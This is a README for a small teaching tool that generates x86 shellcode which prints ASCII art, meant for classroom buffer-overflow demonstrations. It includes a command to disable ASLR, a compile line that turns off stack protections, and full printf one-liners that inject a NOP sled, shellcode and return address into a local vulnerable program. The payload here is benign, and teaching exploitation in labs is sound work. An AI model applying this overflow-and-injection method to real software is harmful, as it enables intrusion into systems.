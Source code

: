 # ascii-art-shellcode
Generate shellcode to print ascii art for simple buffer overflows. Mostly wrote this so I can make examples in class more interesting.

Includes a sample ascii art file taken from <https://asciiart.website/index.php?art=animals/bats>

The basic usage below assumes ASLR is disabled. (i.e. `sudo sysctl kernel.randomize_va_space=0` on Debian)

## Basic Usage
`$ python3 ./ascii_art_shellcode.py bats.ascii`

### Output
`Reading art file bats.ascii
Done reading art file
Need 3 bytes. Adding space characters (\0x20)
Compile line: gcc -fno-builtin -O0 -z execstack -fno-stack-protector -ggdb -mpreferred-stack-boundary=2 -m32 vuln.c -o vuln.out
Run this command to test your overflow:
printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc9\x51\xb8\x09\x20\x20\x20\xfe\xc0\x50\x68\x2e\x2e\x2f\x5c\x68\x20\x20\x2f\x5c\x68\x20\x20\x20\x20\xb8\x5f\x09\x20\x20\xfe\xc4\x50\x68\x5f\x2e\x2e\x5f\x68\x20\x20\x20\x5f\x31\xc0\xb0\x01\xc1\xe0\x10\x05\x2f\x5c\x09\x20\x50\x68\x2f\x5c\x2e\x2e\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x89\xe1\xb2\x24\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x1f\xd2\xff\xff" | ./vuln.out`

### Using the output
`$ printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc9\x51\xb8\x09\x20\x20\x20\xfe\xc0\x50\x68\x2e\x2e\x2f\x5c\x68\x20\x20\x2f\x5c\x68\x20\x20\x20\x20\xb8\x5f\x09\x20\x20\xfe\xc4\x50\x68\x5f\x2e\x2e\x5f\x68\x20\x20\x20\x5f\x31\xc0\xb0\x01\xc1\xe0\x10\x05\x2f\x5c\x09\x20\x50\x68\x2f\x5c\x2e\x2e\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x89\xe1\xb2\x24\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xff\xd1\xff\xff" | ./vuln.out
0xffffd1ff`
<pre>/\../\
    __..__
        /\../\</pre>
`   Segmentation fault`

Note, you might need to change the last few bytes of the shellcode to match the address that the sample vulnerable program spits out, depending on how you executed the program. Running it in an IDE tends to offset things a bit.
